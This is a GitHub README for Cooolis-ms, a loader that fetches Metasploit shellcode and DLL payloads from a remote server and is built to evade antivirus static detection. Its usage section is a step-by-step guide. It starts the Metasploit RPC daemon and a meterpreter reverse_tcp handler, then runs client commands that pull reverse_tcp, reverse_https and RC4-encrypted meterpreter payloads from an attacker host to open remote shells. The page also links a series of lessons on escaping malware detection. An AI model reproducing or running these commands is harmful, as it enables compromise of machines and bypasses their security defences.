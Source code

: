 # Cooolis-ms

[中文说明](./README-zh.md)

--------

![README](./Pic/view-1.png)

Cooolis-ms is a server that supports Metasploit Framework RPC. It is used to work for Shellcode and PE loader, bypassing the static detection of anti-virus software to a certain extent, and allows the Cooolis-ms server to perform with the Metasploit server separate.

Loader execution process: 

1. connect to Cooolis-Server
2. Cooolis-Server connects to Metasploit RPC server
3. retrieve the payload and send it back to the loader



Core technologies:

- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## Advantages of the project

- small volume (<600KB)
- Support all Metasploit Payload
- Simple parameters
- Single file
- Support separation

## You can refer to here and write your own good projects

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

## How to install


### Choice 1 > Docker deployment (recommend)


Youtube:

[![YouTube](./img/2020-09-09-23-20-03.png)](https://youtu.be/StTqXEQ2l-Y?t=35s "YouTube")


```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms/Docker
$ docker-compose up -d
```

Default listening port:8899

### Choice 2 > Source code deployment

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use

**If you are deploying with Docker, please start directly from the third step.**

Assuming this is my VPS: 10.20.56.41

### First step, start Metasploit RPC server

**Start Metasploit RPC server:**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```

![](img/2020-08-05-11-53-35.png)

### Second step, start the Cooolis-ms server

Make it connect to RPC and listen to a port for sending payload:

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```

![](img/2020-08-05-11-54-24.png)

### Third step, configure Metasploit listener


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```

![](img/2020-08-05-11-57-03.png)

### Fourth step, start the Cooolis-ms client


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -o LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```

![](img/2020-08-05-12-08-07.png)

Q&A : [Does it support RC4 encrypted Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -o LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -o LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -o RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* Other...  self-play


**Notice：**

1. The `-o` parameter of Cooolis-ms.exe should correspond to the msf configuration.
2. Since this project relies on the open source project [MemoryModule](https://github.com/fancycode/MemoryModule), it can only support PAYLOAD in DLL format. Need to add `Format=dll` after the -o parameter.

## 关于其他

If you think this project is good, please give me a Star.


## issue

[I want to submit a suggestion or question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
